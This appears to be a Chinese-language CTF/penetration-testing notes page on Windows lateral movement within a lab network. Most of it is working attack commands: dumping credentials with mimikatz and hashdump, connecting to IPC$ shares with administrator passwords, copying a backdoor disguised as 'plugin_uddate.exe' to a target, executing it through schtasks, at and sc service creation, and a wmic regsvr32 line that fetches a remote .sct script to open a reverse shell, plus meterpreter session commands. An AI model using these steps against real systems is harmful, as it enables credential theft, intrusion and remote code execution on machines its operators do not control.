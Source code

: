 ```yaml
---
title: 横向移动
date: 2022-11-07 14:19:49
categories: CTF
tags: [渗透]
---
```


## 利用Windows内置工具

- IPC+Schtasks+AT
- IPC+SC(服务)
- WMIC(查询信息，补丁、账号；进程创建)
- WinRM服务

## IPC$

> IPC$,Internet Process Connection，是共享“命名管道”的资源，它是为了**让进程间通信**而开放的命名管道， 输入**可信**用户名、密码建立管道，借助该管道，可以实现加密数据的交换，访问远程计算机。

利用IPC$,需要使用Administrator账号权限。

### 利用条件

1.开放了139、445端口

2.目标机器开启IPC$文件共享服务（该服务建立的初衷是为了管理员方便的管理远程计算机）。

3.需要目标机器的管理员账号和密码

```cmd
D:\Documents>netstat -ano|findstr 445
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    192.168.66.1:54207     192.168.66.131:445     ESTABLISHED     4
  TCP    [::]:445               [::]:0                 LISTENING       4
```



### 获取管理员账号密码：

```
hashdump密码凭据获取
去cmd5.com在线解密即可
```

```
load kiwi
load mimikatz
help
#获取明文密码
cred_kerberos
```

当无法获取到明文密码时，可以采取**哈希扩展攻击**

```
存放在某个文件；
使用弱口令、口令复用；
```



![1667886774960](Pe-横向移动/1667886774960.png)

### 常用命令

```
net use  \\192.168.66.131\ipc$ /user:administrator "passwd"
#该命令可能被对方防火墙拦下，报告系统错误67 找不到网络名
#查看链接情况
net use  
#查看目标主机时间
net time \\192.168.66.131 
```

```
#删除链接,并且在非交互模式下输入yes
net use \\192.168.66.131\ipc$ /del /y
net use * /del /y

```

对于同一个机器，只能对目标主机**建立一个net use链接**，建立第二个时会报错（报告账号或者密码错误）

```
#文件上传下载
copy shell.exe \\192.168.66.131\c$\windows\temp\plugin_uddate.exe
#查看目标机器中的文件
dir \\192.168.66.131\d$

copy \\192.168.66.131\d$\hello.exe d:\

```

```
# 改变代码页编码为utf-8，gbk 936
chcp 65001

#谷歌浏览器快速切换标签页
ctrl+shift+tab

```

## Schtasks

### 创建计划任务执行我的后门

```
schtasks /create /s 192.168.66.131 /u administrator /p "passwd" /sc MINUTE /mo 1 /tn test /tr "c:\\windows\\temp\\plugin_uddate.exe"
```

![1667891124571](Pe-横向移动/1667891124571.png)

```
SUCCESS: The scheduled task "test" has successfully been created.
```

正常，过一分钟后木马被执行

账户输错

```
ERROR: No mapping between account names and security IDs was done.
(43,4):LogonType:
```

**注：只要执行了计划任务，一定会被系统日志记录下来。**

### tasklist查看目标机器上的进程

```
#展示详细信息
tasklist /s \\192.168.66.131 /v  
tasklist /s \\192.168.66.131 /u administrator /p "passwd"
vm3dservice.exe
VGAuthService
```

### 删除指定名称的计划任务

```cmd
schtasks /delete /s 192.168.66.131 /tn test /u administrator /p "passwd" /y
```



## AT

### 指定时间创建计划任务

```
net time \\192.168.66.131 
at  \\192.168.66.131 15:08 D:\\hello.exe
```

```
The AT command has been deprecated. Please use schtasks.exe instead.
Added a new job with job ID = 1
```

**注：At在Windows Server 2012等新版系统中被弃用**

![1667891456404](Pe-横向移动/1667891456404.png)

```
schtasks /delete /s 192.168.66.131 /tn At1 /u administrator /p "passwd" /y
```

## SC

### 创建服务执行

**注：binpath= 后面必须有空格**

```
sc \\192.68.66.131 create test binpath= "D:\\hello.exe" obj= "Administrator" password= passwd 
sc \\192.168.66.131 start test
```

### 查看服务是否创建成功

```
sc \\192.68.66.131 qc test
```

## WMIC

 Windows Management Instrumentation 

### 管理远程计算机node的进程process

借助regsvr32,进而反弹shell

```
wmic /node:192.168.66.131 /user:administrator /password:passwd process call create "regsvr32" /s /n /u /i:http:192.168.66.1:8080/fesddasji.sct scrobj.dll"
```

注：wmic没有回显，可以借助wmicexec.vbs脚本实现回显。

```
#列出简洁的系统信息
wmic os list brief
```



## MSF

```
jobs
#获取建立的会话
sessions
# 选择一个会话
sessions 5
#获取用户名
meterpreter:getuid
#退出当前会话
exit

```

